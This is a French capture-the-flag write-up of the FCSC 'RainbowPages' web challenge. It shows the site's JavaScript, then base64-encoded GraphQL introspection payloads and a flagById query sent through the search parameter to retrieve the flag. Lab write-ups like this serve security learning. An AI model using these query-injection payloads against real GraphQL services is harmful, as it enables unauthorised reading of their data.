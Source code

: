 # <center>RainbowPages</center>

<center>

![](./RP.png)
</center>

On arrive sur cette page

![](./RB1.png)

Voyons voir le code source, ça pourrait un peu nous éclairer

    <script>
		function makeSearch(searchInput) {
			if(searchInput.length == 0) {
				alert("You must provide at least one character!");
				return false;
			}

			var searchValue = btoa('{ allCooks (filter: { firstname: {like: "%'+searchInput+'%"}}) { nodes { firstname, lastname, speciality, price }}}');
			var bodyForm = new FormData();
			bodyForm.append("search", searchValue);

			fetch("index.php?search="+searchValue, {
				method: "GET"
			}).then(function(response) {
				response.json().then(function(data) {
					data = eval(data);
					data = data['data']['allCooks']['nodes'];
					$("#results thead").show()
					var table = $("#results tbody");
					table.html("")
					$("#empty").hide();
					data.forEach(function(item, index, array){
						table.append("<tr class='table-dark'><td>"+item['firstname']+" "+ item['lastname']+"</td><td>"+item['speciality']+"</td><td>"+(item['price']/100)+"</td></tr>");
					});
					$("#count").html(data.length)
					$("#count").show()
				});
			});
		}
		
		$("#clear-btn").click(function() {
			$("#search").val("");
			$("#results tbody").html("");
			$("#results thead").hide();
			$("#count").hide()
			$("#empty").show();
		})

		$("#search-btn").click(function() {
			var content = $('#search').val();
			makeSearch(content);
		})
	</script>

Vu la tête de la requête on peut se dire qu'il s'agit en réalité de GraphQL et que donc le challenge ici va consister en une GraphQL injection.

L'endpoint est situé à /index.php?search= comme on peut le voir dans le script ci-dessus.
<br>
Maintenant essayons de rentrer quelque chose dans la barre de recherche du site.
<br>
![](./RB2.png)

On peut voir que la requête est bien faite à /index.php?search= et que le paramètre mis à search est une chaîne en base64, déchiffrons là.

    saymant@PC:~/Desktop/Bureau/FCSC/Write up/Web/Rainbow Pages/1$ echo eyBhbGxDb29rcyAoZmlsdGVyOiB7IGZpcnN0bmFtZToge2xpa2U6ICIlZXhlbXBsZSUifX0pIHsgbm9kZXMgeyBmaXJzdG5hbWUsIGxhc3RuYW1lLCBzcGVjaWFsaXR5LCBwcmljZSB9fX0= | base64 -d
    { allCooks (filter: { firstname: {like: "%exemple%"}}) { nodes { firstname, lastname, speciality, price }}}

Nous avons donc notre requête qui est directement envoyée à partir de l'url, pour exploiter cette vulnerabilité nous avons juste à remplacer la requête initiale par une autre préalablement choisie.
<br>
Essayons d'afficher tous les champs à l'aide de la requête 

    {  
     __schema {
        types {
        name
        }
     }
    }

Il faut donc maintenant la mettre en base 64, ce qui nous donne la requête finale ```/index.php?search=ewogIF9fc2NoZW1hIHsKICAgIHR5cGVzIHsKICAgICAgbmFtZQogICAgfQogIH0KfQo=```

![](./RB3.png)

On voit alors tous les champs GraphQL.
<br>
Mais cela ne nous intéresse pas vraiment ici, essayons plutôt de lister les Queries avec la requête

    {
     __schema {
        queryType {
        fields {
            name
            description
        }
        }
     }
    }

soit ```/index.php?search=ewogIF9fc2NoZW1hIHsKICAgIHF1ZXJ5VHlwZSB7CiAgICAgIGZpZWxkcyB7CiAgICAgICAgbmFtZQogICAgICAgIGRlc2NyaXB0aW9uCiAgICAgIH0KICAgIH0KICB9Cn0K```

Ce qui nous donne

![](./RB4.png)

En essayant d'afficher le contenu des différents champs avec la payload

    {
    __type(name: "Champ") {
        name
        fields {
        name
        type {
            name
            kind
        }
        }
    }
    }

On ne trouve pas grand chose d'intéressant.
Alors des champs devraient plus nous attirer que d'autres, ceux contenant le mot 'flag'. 
<br>Alors après s'être un peu renseigné sur la syntaxe GraphQL on apprend que l'on peut rajouter des paramètres aux requêtes envoyées, alors on test plusieurs requêtes sur les champs 'flag', 'allFlags' et 'flagById'.
<br>En se penchant sur le 'flagById' on arrive à avoir quelque chose de concluant en mettant l'id à 1 et en affichant 'flag', comme ceci : 

    { 
    flagById(id: 1) {
        flag 
    }
    }

soit ```/index.php?search=IHsgCiAgICBmbGFnQnlJZChpZDogMSkgewogICAgICAgIGZsYWcgCiAgICB9CiB9Cg==```

La page nous renvoit 

![](./RB5.png)

:)
